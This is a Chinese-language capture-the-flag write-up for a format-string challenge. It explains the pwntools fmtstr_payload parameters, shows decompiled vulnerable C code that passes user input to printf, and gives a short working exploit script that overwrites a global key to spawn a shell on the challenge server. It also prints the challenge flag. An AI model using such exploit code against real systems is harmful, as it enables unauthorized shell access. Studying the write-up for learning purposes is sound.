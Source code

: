 # 实时数据监测

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=c17a14e0-9bc1-4370-ab33-7348e06f55f2_2)

我宣布pwntools就是神！记录一下这个好用工具的最简单用法。其实格式化字符串任意写的原理我还不是很懂，找个时间学习一下，到时候顺便写个笔记（到处挖坑）。

首先pwntools有一个[fmtstr](https://docs.pwntools.com/en/stable/fmtstr.html)工具。看官方文档好像还可以自动pwn，但是我这个机子没法运行elf，所以还是半自动吧，已经把最难的部分帮我完成了。

- ### fmtstr_payload
  > 根据给定的参数自动生成payload，32位和64位都可以。写入地址的大小由context.bits决定。
  - 语法：pwnlib.fmtstr.fmtstr_payload(offset, writes, numbwritten=0, write_size='byte') → str
  - 参数
    > offset (int) – 格式化字符串中第一个可控制参数的偏移
    > writes (dict) – 要写入地址：写入内容 的字典
    > numbwritten (int) – 打印格式化字符串之前printf已经打印的字节数
    > write_size (str) – 必须为byte, short 或者 int，表示你想使用hhn，hn或者n进行写入。
    > overflows (int) – 为了减少格式化字符串所可以接受的额外溢出。此参数是格式化字符串长度与输出数量的交换。越大的值所生成的payload越短，同时运行时的输出越多。
    > strategy (str) – fast或者small。small为默认，fast可以使用在有多处写入的地方
   - 返回值：根据参数得出的payload。

个人渣翻，有些还没看懂。main函数很简单，内部调用了locker，这才是关键点。

```c
void locker(void)
{
  char local_20c [520];
  fgets(local_20c,512,stdin);
  imagemagic(local_20c);
  if (key == 0x2223322) {
    system("/bin/sh");
  }
  else {
    printf(&DAT_080485d8,&key,key);
  }
  return;
}
```

如果key的值等于0x2223322就可以得到shell。imagemagic就是个格式化字符串漏洞。

```c
void imagemagic(char *param_1)
{
  printf(param_1);
  return;
}
```

查看key的地址为0x0804a048。checksec的结果为保护全没开。现在就很简单了。

```python
from pwn import *
proc=remote('61.147.171.105',65082)
payload=fmtstr_payload(12,{0x0804a048:0x02223322})
proc.sendline(payload)
proc.interactive()
```

- ### Flag
    > cyberpeace{20c648141e5e28319d890841074e93fc}